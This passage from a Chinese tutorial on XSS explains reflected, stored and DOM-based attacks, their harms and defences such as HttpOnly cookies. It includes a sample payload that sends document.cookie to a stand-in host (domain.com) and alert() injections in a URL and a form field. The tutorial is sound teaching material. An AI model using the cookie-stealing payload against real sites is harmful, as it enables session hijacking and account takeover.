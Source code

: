 之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

###### (3) 攻击分类举例

**① 反射型XSS**

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。

**简单例子**

正常发送消息：`http://www.test.com/message.php?send=Hello,World！`

接收者将会接收信息并显示Hello,Word

非正常发送消息：`http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！`

接收者接收消息显示的时候将会弹出警告窗口

**② 持久型XSS**

又称为持久型跨站点脚本，它一般发生在XSS攻击向量(一般指XSS攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器,脚本执行。持久的XSS相比非持久性XSS攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的orkut曾经就遭受到XSS。

**简单例子：**

从名字就可了解到存储型XSS攻击就是将攻击代码存入数据库中，然后客户端打开时就执行这些攻击代码。例如留言板

留言板表单中的表单域：`<input type=“text” name=“content” value=“这里是用户填写的数据”>`

**正常操作：**用户是提交相应留言信息；将数据存储到数据库；其他用户访问留言板，应用去数据并显示。

**非正常操作：**攻击者在value填写`<script>alert(‘foolish!’)</script>`【或者html其他标签（破坏样式。。。）、一段攻击型代码】；将数据存储到数据库中；其他用户取出数据显示的时候，将会执行这些攻击性代码

**③ DOM-based XSS**

基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况**构造dom节点**进行XSS跨站脚本攻击。

注：domxss取决于输出位置，并不取决于输出环境，因此domxss既有可能是反射型的，也有可能是存储型的。dom-based与非dom-based，反射和存储是两个不同的分类标准。

###### ③ 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

###### ④ 防范手段

记住一句至理名言——“**所有用户输入都是不可信的**。”

答案很简单，**坚决不要相信用户的任何输入**，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

**I 设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。
